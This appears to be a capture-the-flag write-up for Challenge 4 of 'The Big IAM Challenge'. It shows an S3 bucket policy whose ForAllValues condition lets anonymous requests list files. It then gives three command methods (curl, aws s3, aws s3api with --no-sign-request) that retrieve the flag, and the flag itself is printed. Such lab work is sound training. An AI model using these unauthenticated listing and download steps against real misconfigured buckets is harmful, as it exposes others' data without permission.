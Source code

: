 # Challenge 4

**Challenge 4:** https://bigiamchallenge.com/challenge/4

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/cdbab321-9873-4577-9033-2a969f2c0eef)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/66e7fe21-902c-4a14-85df-8f3c74bc4a44)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/a0aff0ee-4106-4a8a-8aac-b7e6a60db8ff)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/063423d7-2d54-4ecd-95a0-d677d4530e71)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/3d2d0d8d-2405-4ee9-b077-feac8f84be1e)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/d051a17b-0c84-4790-ad6c-22f03d235f3d)


```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                },
                "ForAllValues:StringLike": {
                    "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
                }
            }
        }
    ]
}
```

**Method 1:**

```
> curl "https://s3.amazonaws.com/thebigiamchallenge-admin-storage-abf1321?prefix=files/"
<?xml version="1.0" encoding="UTF-8"?>
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Name>thebigiamchallenge-admin-storage-abf1321</Name><Prefix>files/</Prefix><Marker></Marker><MaxKeys>1000</MaxKeys><IsTru
ncated>false</IsTruncated><Contents><Key>files/flag-as-admin.txt</Key><LastModified>2023-06-07T19:15:43.000Z</LastModified><ETag>"e365cfa7365164c05d7a9c209c4d8514"</ETag><Size>42</Size><St
orageClass>STANDARD</StorageClass></Contents><Contents><Key>files/logo-admin.png</Key><LastModified>2023-06-08T19:20:01.000Z</LastModified><ETag>"c57e95e6d6c138818bf38daac6216356"</ETag><S
ize>81889</Size><StorageClass>STANDARD</StorageClass></Contents></ListBucketResult>
> curl "https://s3.amazonaws.com/thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt"
{wiz:principal-arn-is-not-what-you-think}
```

**Method 2:**

```
> aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ --no-sign-request
2023-06-07 19:15:43         42 flag-as-admin.txt
2023-06-08 19:20:01      81889 logo-admin.png
> aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt /tmp/flag-as-admin.txt --no-sign-request
Completed 42 Bytes/42 Bytes (1019 Bytes/s) with 1 file(s) remainingdownload: s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt to ../../tmp/flag-as-admin.txt
> cat /tmp/flag-as-admin.txt
{wiz:principal-arn-is-not-what-you-think}
```

**Method 3:**

```
> aws s3api list-objects --bucket thebigiamchallenge-admin-storage-abf1321 --prefix files/ --no-sign-request
{
    "Contents": [
        {
            "Key": "files/flag-as-admin.txt",
            "LastModified": "2023-06-07T19:15:43.000Z",
            "ETag": "\"e365cfa7365164c05d7a9c209c4d8514\"",
            "Size": 42,
            "StorageClass": "STANDARD"
        },
        {
            "Key": "files/logo-admin.png",
            "LastModified": "2023-06-08T19:20:01.000Z",
            "ETag": "\"c57e95e6d6c138818bf38daac6216356\"",
            "Size": 81889,
            "StorageClass": "STANDARD"
        }
    ]
}
> aws s3api get-object --bucket thebigiamchallenge-admin-storage-abf1321 --key files/flag-as-admin.txt /tmp/flag-as-admin.txt --no-sign-request
{
    "AcceptRanges": "bytes",
    "LastModified": "Wed, 07 Jun 2023 19:15:43 GMT",
    "ContentLength": 42,
    "ETag": "\"e365cfa7365164c05d7a9c209c4d8514\"",
    "ContentType": "text/plain",
    "ServerSideEncryption": "AES256",
    "Metadata": {}
}
> cat /tmp/flag-as-admin.txt
{wiz:principal-arn-is-not-what-you-think}
```

